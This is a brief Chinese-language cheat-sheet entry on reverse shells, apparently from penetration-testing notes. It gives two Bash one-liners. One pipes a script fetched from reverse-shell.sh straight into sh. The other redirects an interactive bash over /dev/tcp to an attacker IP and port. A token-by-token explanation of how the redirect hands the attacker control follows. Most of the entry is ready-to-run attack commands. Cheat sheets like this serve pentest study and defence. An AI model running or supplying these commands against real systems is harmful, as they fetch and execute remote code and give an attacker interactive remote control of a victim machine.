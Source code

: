 # 反弹 Shell

## Bash

```bash
curl https://reverse-shell.sh/yourip:1337 | sh 
bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1
```

1. `bash -i`：启动一个交互式 Bash shell。
2. `>&`：重定向符号，表示将标准输出（stdout）和标准错误（stderr）重定向到同一目的地（攻击者）。
3. `/dev/tcp/<ATTACKER-IP>/<PORT>`：特殊的设备文件，表示与指定 IP 地址和端口的 TCP 连接。
4. `0>&1`：将标准输入（stdin）重定向到标准输出（stdout），这样目标机器可以接收来自攻击者的输入。
